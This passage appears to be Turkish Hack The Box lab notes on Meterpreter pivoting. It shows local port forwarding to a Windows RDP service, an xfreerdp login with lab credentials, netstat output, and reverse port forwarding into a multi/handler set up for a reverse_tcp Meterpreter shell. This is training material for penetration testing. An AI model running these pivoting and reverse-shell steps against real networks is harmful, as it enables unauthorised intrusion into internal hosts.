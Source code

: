 #### Creating Local TCP Relay
```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

Yukarıdaki komut Meterpreter oturumundan saldırı hostumuzun lokal portu (-l) 3300'de bir listener başlatmasını ve tüm paketleri Meterpreter oturumumuz aracılığıyla 3389 portundaki (-p) uzak (-r) Windows sunucusu 172.16.5.19'a iletmesini ister. Şimdi, localhost:3300 üzerinde xfreerdp komutunu çalıştırırsak, bir remote desktop oturumu oluşturabileceğiz.


### Windows Target'a localhost üzerinden bağlanma
```shell-session
M1R4CKCK@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

### Netstat Output
Yakın zamanda kurduğumuz oturumla ilgili bilgileri görüntülemek için Netstat'ı kullanabiliriz. Savunma açısından bakıldığında, bir hostun ele geçirildiğinden şüpheleniyorsak Netstat'ı kullanmaktan fayda sağlayabiliriz. Bu, bir hostun kurduğu tüm oturumları görüntülememizi sağlar.

```shell-session
M1R4CKCK@htb[/htb]$ netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```


## Meterpreter Reverse Port Forwarding
Lokal port yönlendirmelerine benzer şekilde, Metasploit aşağıdaki komutla reverse port yönlendirme de gerçekleştirebilir, burada tehlikeye atılmış sunucuda belirli bir portu dinlemek ve Ubuntu sunucusundan gelen tüm shellleri saldırı hostumuza yönlendirmek isteyebilirsiniz. Windows için saldırı hostumuzda yeni bir portta bir dinleyici başlatacağız ve Ubuntu sunucusundan 1234 numaralı portta Ubuntu sunucusuna gelen tüm istekleri 8081 numaralı porttaki listener'ımıza iletmesini isteyeceğiz.

Aşağıdaki komutu kullanarak önceki senaryodaki mevcut shell'imiz üzerinde bir reverse port forward oluşturabiliriz. Bu komut Ubuntu sunucusu üzerinde çalışan 1234 numaralı porttaki tüm bağlantıları lokal (-l) 8081 numaralı porttaki saldırı hostumuza yönlendirir. Ayrıca listener'ımızı bir Windows shell için 8081 portunu dinleyecek şekilde yapılandıracağız. 


### Reverse Port Yönlendirme Kuralları
```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```


### multi/handler'ı Yapılandırma ve Başlatma
```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```